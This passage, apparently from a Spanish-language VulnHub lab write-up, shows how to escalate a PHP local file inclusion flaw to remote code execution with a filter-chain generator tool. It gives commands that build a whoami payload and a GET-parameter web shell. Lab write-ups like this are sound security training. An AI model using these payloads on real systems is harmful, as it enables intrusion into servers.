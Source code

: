 ### **Explotaciones posibles**

#### 1. *PHP Filter Chains*

La primera explotación que voy a probar es la de utilizar **Filter Chains en PHP**. [Explicación de los Filter Chains al final](#explicación-de-filter-chains).

Cuando tenemos un **LFI** sin la capacidad de ejecutar comandos, la idea principal siempre es derivarlo a un **RCE** (*Remote Code Execution*), para ello vamos a utilizar los **Filter Chains**.

Utilizaremos el generador de **Filter Chains** del siguiente repositorio de [**Github**](https://github.com/synacktiv/php_filter_chain_generator).

Para utilizar la herramienta, simplemente tenemos que clonar el repositorio, y ejecutarla usando el parámetro "*--chain*", más la cadena en **PHP** que queramos ejecutar.

En mi caso ejecutaré primero el comando **whoami**.

```bash
python3 php_filter_chain_generator.py --chain '<?php system("whoami");?>'
```

Al generar el código, lo copiaremos, y lo pegaremos después del signo igual en el **LFI**.

![picture](/assets/images/vulnhub/corr12.png)

Y una vez lo ejecutemos, tendremos el output del comando ejecutado.

![picture](/assets/images/vulnhub/corr13.png)

A continuación, la idea es generar un **Command Injection**, que es la capacidad de ejecutar comandos desde el navegador.

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
